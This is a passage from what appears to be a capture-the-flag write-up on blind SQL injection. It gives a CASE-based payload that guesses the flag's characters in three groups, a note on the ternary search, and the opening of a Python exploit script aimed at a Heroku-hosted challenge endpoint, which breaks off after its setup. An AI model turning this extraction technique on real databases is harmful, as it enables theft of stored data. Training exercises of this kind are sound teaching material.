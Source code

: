1. }abcdefgh
2. ijklmnopq
3. rstuvwxyz_

We can check if the character is in a specific group by using the following SQL query:

``` sql
(select case
  when (
    (content like 'cymetrics{}%') or
    (content like 'cymetrics{a%') or
    (content like 'cymetrics{b%') or
    (content like 'cymetrics{c%') or
    (content like 'cymetrics{d%') or
    (content like 'cymetrics{e%') or
    (content like 'cymetrics{f%') or
    (content like 'cymetrics{g%') or
    (content like 'cymetrics{h%')
  ) then 1
  when (
    (content like 'cymetrics{i%') or
    (content like 'cymetrics{j%') or
    (content like 'cymetrics{k%') or
    (content like 'cymetrics{l%') or
    (content like 'cymetrics{m%') or
    (content like 'cymetrics{n%') or
    (content like 'cymetrics{o%') or
    (content like 'cymetrics{p%') or
    (content like 'cymetrics{q%')
  ) then 2
  when (
    (content like 'cymetrics{r%') or
    (content like 'cymetrics{s%') or
    (content like 'cymetrics{t%') or
    (content like 'cymetrics{u%') or
    (content like 'cymetrics{v%') or
    (content like 'cymetrics{w%') or
    (content like 'cymetrics{x%') or
    (content like 'cymetrics{y%') or
    (content like 'cymetrics{z%') or
    (content like 'cymetrics{\_%')
  ) then 5
  else 10
end from flag)
```

Each time it is divided into three equal parts for searching, it becomes a ternary search. In the worst case, the number of attempts required is reduced from 9n to 3n. The script is as follows (the ternary search part is a bit messy and may contain bugs):

``` python
# exploit-search-teanary.py
import requests
import time
import json
import urllib.parse

def print_success(raw):
  print(f"\033[92m{raw}\033[0m")

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

host = 'https://od-php.herokuapp.com/sql'
char_index = 0
char_set = '}abcdefghijklmnopqrstuvwxyz_'
```